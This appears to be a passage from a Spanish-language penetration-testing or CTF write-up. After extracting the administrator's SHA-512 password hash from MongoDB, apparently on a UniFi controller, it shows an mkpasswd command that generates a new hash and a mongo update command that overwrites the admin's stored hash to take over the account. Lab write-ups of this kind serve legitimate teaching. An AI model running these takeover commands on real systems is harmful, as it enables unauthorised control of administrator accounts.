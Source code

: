 ![](../img/a11a5ea6954a039386ec5053c625c63e.png)

Extraemos `x_shadow`, el hash SHA-512 de la contraseña del administrador.


## 🔐 5. Crear un nuevo administrador (Shadow Admin)

### 🔐 Creamos un nuevo hash con mkpasswd

```bash
mkpasswd -m sha-512 Password123!
```

![](../img/98eef7ce526226cec388bd5a1b83696e.png)

### 🧬 Modificamos el hash del admin actual en MongoDB

```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("")},{$set:{"x_shadow":"HASH-GENERADO"}}'
```


![](../img/f9f3affa420f59d8e7fa9b63df9b02a8.png)
